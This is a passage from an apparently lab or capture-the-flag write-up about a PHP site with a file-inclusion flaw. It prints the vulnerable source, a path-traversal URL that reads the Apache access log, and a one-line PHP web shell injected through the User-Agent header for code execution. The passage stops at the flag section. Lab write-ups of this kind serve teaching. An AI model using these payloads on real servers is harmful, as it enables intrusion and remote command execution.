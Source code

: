 ```php
<?php
function containsStr($str, $substr) {
    return strpos($str, $substr) !== false;
}

$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';

if(isset($_GET['view'])) {
    if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
        echo 'Here you go!';
        include $_GET['view'] . $ext;
    } else {
        echo 'Sorry, only dogs or cats are allowed.';
    }
}
?>
```



The site checks if the `ext` parameter is provided. If not, it adds `.php` by default to our filename.

### Log Poisoning

Using Wappalyzer, we identify that the server runs on Apache. Let’s try to get code execution with log poisoning. The Apache access log path is `/var/log/apache2/access.log`. We can load it by adding multiple `../` to our path:

```
/?view=./dog/../../../../../../../var/log/apache2/access.log&ext
```

![Access Log](access_log_burpsuite.png)

### Remote Code Execution (RCE)

We notice that the `User-Agent` parameter is logged. We can insert a small PHP script into the log for code execution:

```php
<?php system($_GET['cmd']); ?>
```

After uploading the payload, we execute it by visiting the crafted URL. This gives us a reverse shell:

![Reverse Shell](shell.png)

---

## Finding Flags

### First Flag

